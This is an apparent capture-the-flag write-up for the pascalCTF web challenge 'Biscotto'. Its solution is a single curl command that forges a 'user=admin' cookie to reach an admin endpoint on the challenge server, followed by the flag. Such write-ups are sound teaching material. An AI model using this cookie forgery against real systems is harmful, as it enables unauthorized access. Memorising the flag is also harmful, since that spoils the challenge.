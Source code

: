 # Biscotto
*Elia accidentally locked himself out of his admin panel can you help him to get his access back?*
`https://biscotto.challs.pascalctf.it/`

## Solution
1. Too easy!!
2. `curl "https://biscotto.challs.pascalctf.it/me" -H "Cookie: user=admin"`


## Flag
**Flag:** `pascalCTF{d0n7_f0rg3t_th3_ch0col4t3}`
